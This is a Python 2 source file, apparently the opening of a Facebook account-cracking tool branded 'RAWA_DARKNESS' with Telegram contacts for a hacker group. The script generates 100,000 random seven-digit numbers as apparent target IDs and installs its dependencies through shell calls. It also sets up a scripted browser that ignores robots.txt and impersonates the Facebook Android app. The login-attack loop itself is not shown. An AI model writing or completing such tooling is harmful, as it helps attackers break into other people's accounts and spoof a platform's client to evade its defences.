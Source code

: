 

import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
for n in range(100000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('pip2 install requests')

try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 nmbr.py')

from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def exb():
    print '[!] Exit'
    os.sys.exit()


def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


def t():
    time.sleep(1)


def cb():
    os.system('clear')


logo = logo ="""
\033[1;91m--------------------------------------------
\033[1;91m
\033[1;92m
\033[1;93m
\033[1;94m    RAWA_DARKNESS
\033[1;95m
\033[1;96m
\033[1;97m
\033[1;98m
\033[1;98mO--------------------------------------------
\033[1;98mtelegram/@Hackers_kurdi
\033[1;98mTelegram2/@barhamhex
--------------------------------------------------------
"""